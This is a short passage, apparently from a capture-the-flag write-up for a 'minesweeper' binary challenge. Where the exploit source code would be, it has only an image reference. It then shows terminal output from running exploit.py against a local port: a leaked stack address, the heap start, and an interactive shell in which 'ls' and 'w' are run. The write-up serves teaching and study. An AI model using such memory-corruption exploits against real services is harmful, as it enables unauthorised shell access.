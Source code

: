 and when we run it:

```
$	python exploit.py
[+] Opening connection to 127.0.0.1 on port 31337: Done
[*] Stack Leak: 0xffefd6db
[*] Start of the heap is: 0x8c9b000
[*] Switching to interactive mode
$ ls
exploit.py
minesweeper
peda-session-dash.txt
peda-session-ls.txt
peda-session-minesweeper.txt
readme.md
solved.py
$ w
 15:56:03 up  1:34,  1 user,  load average: 1.10, 0.92, 0.95
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guy      tty7     :0               14:21    1:34m  1:26   0.15s /sbin/upstart --user
```

Just like that, we popped a shell!
